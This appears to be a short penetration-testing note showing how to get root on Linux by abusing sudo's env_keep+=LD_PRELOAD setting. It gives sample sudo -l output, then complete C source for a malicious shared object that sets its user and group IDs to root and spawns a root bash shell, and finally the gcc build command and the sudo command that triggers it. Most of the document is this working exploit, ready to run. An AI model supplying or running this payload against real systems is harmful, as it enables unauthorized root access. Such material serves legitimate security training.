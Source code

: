 # LD_PRELOAD Privilege Escalation
Let's see an example of how we can utilize the [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) environment variable to escalate privileges. For this, we need a user with sudo privileges.

```bash
sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```
We can see in last line `env_keep+=LD_PREALOAD` we can abuse it to get root using following maliciuos program:
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
To compile:
```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
Finally, to escalate we have to use full path of binary which is allowed to run as root without a password we saw it by 
`sudo -l` command:
```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
